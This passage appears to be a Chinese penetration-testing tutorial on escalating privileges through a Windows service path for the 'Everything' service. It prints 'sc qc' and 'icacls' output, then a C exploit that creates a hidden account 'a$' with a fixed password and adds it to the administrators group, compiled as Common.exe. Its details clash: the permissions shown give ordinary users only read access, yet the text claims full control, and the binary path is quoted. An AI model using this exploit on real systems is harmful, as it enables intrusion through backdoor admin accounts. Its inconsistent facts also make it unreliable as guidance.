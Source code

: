 ![路径提权](E:\file\知识\1-广东技术分享\1-2021年12月\路径提权.jpg)Windows 服务大多数情况是以 System 权限运行，用SC查看 Everything 服务详细配置，【SERVICE_START_NAME 】是服务运行账号，【 START_TYPE 】为启动类型，发现启动方式是自启，并且是以 System 权限运行 。

```cmd
C:\Users>sc qc Everything  
[SC] QueryServiceConfig 成功

SERVICE_NAME: zksvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Common Files\Everything\Everything.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Everything
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

查看目录权限，看是否可以在 【 C:\ 】 目录下创建程序【 Program exe 】 或者是在 【 C:\Program Files\ 】目录下创建程序 【 Common.exe 】。这需要看user 用户是否有 【 F 】 和 【 M 】 的权限。【 F 】 为完全访问权限，【 M 】 为修改权限。运行命令发现用户对【 C:\Program Files 】 目录具有完全控制权 那么便可以在该目录下创建 【 Common.exe 】 。

```cmd
C:\Users>icacls "C:\Program Files"
C:\Program Files NT SERVICE\TrustedInstaller:(F)
                 NT SERVICE\TrustedInstaller:(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(M)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 BUILTIN\Administrators:(M)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 BUILTIN\Users:(RX)
                 BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
                 CREATOR OWNER:(OI)(CI)(IO)(F)
                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
                 APPLICATION PACKAGE AUTHORITY\所有受限制的应用程序包:(RX)
                 APPLICATION PACKAGE AUTHORITY\所有受限制的应用程序包:(OI)(CI)(IO)(GR,GE)
已成功处理 1 个文件; 处理 0 个文件时失败
```

编写C 程序实现新建隐藏用户，并且将用户添加到管理组，然后将其编译成 Windows 程序 。

```bash
root@kali:~# cat exp.c 
#include <stdlib.h>
int main(){
	int i;
	int j;
	i=system("net user a$ 123456 /add");
	j=system("net localgroup administrators a$ /add");
	return 0;
}
root@kali:~# i586-mingw32msvc-gcc exp.c -o Common.exe -mwindows
```
